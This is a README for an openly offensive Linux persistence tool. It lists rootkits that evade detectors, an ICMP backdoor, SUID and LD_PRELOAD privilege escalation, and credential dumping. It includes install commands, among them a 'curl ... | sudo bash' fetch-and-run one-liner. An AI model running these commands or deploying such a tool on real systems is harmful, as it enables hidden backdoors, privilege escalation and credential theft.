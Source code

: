 <h1 align="center">「😈」About D3m0n1z3d Sh3ll</h1>

<p align="center"><img src="banner.png"></p>

DemonizedShell is a Tool to gain persistence on linux systems

### Install

```
git clone https://github.com/MatheuZSecurity/D3m0nz1n3dShell.git
cd D3m0nz1n3dShell
chmod +x demonizedshell.sh
sudo ./demonizedshell.sh
```
### Easy Way

```
sudo curl -sSL https://github.com/MatheuZSecurity/D3m0n1z3dShell/raw/main/install.sh | sudo bash
```

### Demonized Features

* Auto Generate SSH keypair for all users
* APT Persistence 
* Crontab Persistence
* Systemd User level
* Systemd Root Level
* Bashrc Persistence
* Privileged user & SUID bash
* LKM Rootkit Modified, Bypassing rkhunter & chkrootkit
* LKM Rootkit With file encoder. persistent icmp backdoor and others features.
* ICMP Backdoor 
* LD_PRELOAD Setup PrivEsc
* Static Binaries For Process Monitoring, Dump credentials, Enumeration, Trolling and Others Binaries.

### Pending Features

* [ ] LD_PRELOAD Rootkit
* [ ] Process Injection
* [ ] install for example: curl github.com/test/test/demonized.sh | bash
* [ ] Intercept Syscall Write from a file

And other types of features that will come in the future.

## Contribution

If you want to contribute and help with the tool, please contact me.

## Note

> We are not responsible for any damage caused by this tool, use the tool intelligently and for educational purposes only.
